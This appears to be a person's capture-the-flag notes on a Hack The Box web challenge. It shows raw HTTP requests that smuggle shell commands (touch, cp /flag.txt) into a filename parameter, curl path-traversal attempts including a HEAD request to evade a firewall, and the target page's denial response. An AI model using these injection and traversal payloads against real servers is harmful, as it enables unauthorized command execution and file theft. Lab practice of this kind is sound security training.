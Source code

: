 # HTB_Web_Attack
```
POST /index.php?filename=file1%3B%20touch%20file2%3B  HTTP/1.1
Host: 94.237.60.55:34082
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 31

filename=file%3B+touch+file2%3B


```



## HTTP request method exploitation and url filtering 


```
POST /index.php?filename=file%3B%20cp%20%2Fflag.txt%20.%2F%3B HTTP/1.1
Host: 94.237.60.55:34082
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```



 ## Attempted combined traversal


 ```

# Try GET with ../ (might work when POST doesn't)
curl -X GET "http://83.136.253.201:36762/index.php?filename=../../flag.txt"

# Use HEAD to check existence without triggering WAF
curl -I -X HEAD "http://83.136.253.201:36762/index.php?filename=../../flag.txt"
```
<body>
    <div class="form-group">
        <h1>File Manager</h1>
        <form role="form" action="index.php" method="GET">
            <input type="text" class="form-control" placeholder="New File Name" name="filename">
        </form>
        <form action="admin/reset.php" method="GET">
            <input type="submit" value="Reset" class="btn btn-danger" />
        </form>
    </div>
</body>
</body>

</html>

<div></div><ul class="list-unstyled" id="file"><div><h3>Available Files:<h3></div><ul><li><h4><a href='notes.txt'>notes.txt</a></h4></li></ul>Malicious Request Denied!</ul

